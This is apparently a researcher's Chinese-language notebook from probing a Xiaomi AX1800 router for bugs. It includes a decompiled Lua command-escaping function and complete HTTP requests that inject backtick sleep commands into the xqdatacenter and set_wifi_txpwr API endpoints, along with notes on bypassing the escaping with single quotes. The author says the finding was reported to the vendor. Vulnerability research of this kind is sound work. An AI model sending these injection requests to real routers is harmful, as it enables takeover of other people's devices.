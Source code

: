 2025年2月21日

配环境。。。真服了，路由器背后写的 192.168.10.1 结果是 192.168.31.1 。。。

![image-20250221192809344](./AX1800/images/image-20250221192809344.png)

---

目前来看，AX3600被打烂了，AX9000也被抢先挖了很多，看看AX1800有没有洞。



感觉应该有，得实际确认。



_cmdformat:

```lua
function L1(A0)
  local isNil
  isNil = isStrNil(A0)
  
  if isNil then
    return ""
  else
    A0 = A0:gsub("\\", "\\\\")
    A0 = A0:gsub("`", "\\`")
    A0 = A0:gsub("\"", "\\\"")
    A0 = A0:gsub("%$", "\\$")
    return A0
  end
end

_cmdformat = L1
```



可能的点：

xqnetwork.lua中有





2025年2月21日 20点54分

woc，这个地方有！！！还是那个 TunnelRequest！ woc！！！

```
POST /cgi-bin/luci/;stok=bbc0aff38163adc81f0b50c7d03e26f5/api/xqdatacenter/request HTTP/1.1
Host: 192.168.31.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://192.168.31.1/cgi-bin/luci/;stok=bbc0aff38163adc81f0b50c7d03e26f5/web/setting/upgrade
Cookie: __guid=86847064.2712971008854404600.1735352234182.2537; psp=admin|||2|||0; monitor_count=55
Priority: u=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

payload=`sleep%205`
```

就是不知道是否重复了。。。不知道之前有没有人交过。

交个src看看。

21点29分，交了。 希望能收吧~





# xqnetwork

## set_wifi_txpwr（？）

这种会有时延，但dnslog没打通？？？

```
POST /cgi-bin/luci/;stok=88da59b8d4a8d362d48bc5c38a77aded/api/xqnetwork/set_wifi_txpwr HTTP/1.1
Host: 192.168.31.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.31.1/cgi-bin/luci/web
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: __guid=86847064.2712971008854404600.1735352234182.2537; monitor_count=29; psp=admin|||2|||0
Upgrade-Insecure-Requests: 1
Priority: u=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

txpwr=%0a`sleep%201`
```



# 再看cmdformat类型过滤

发现没有过滤单引号！！！ 而很多地方命令的拼接，参数处都是用的单引号包裹！！！ 所以也许可以单引号闭合逃逸？

但只逃逸单引号也执行不了。🤔
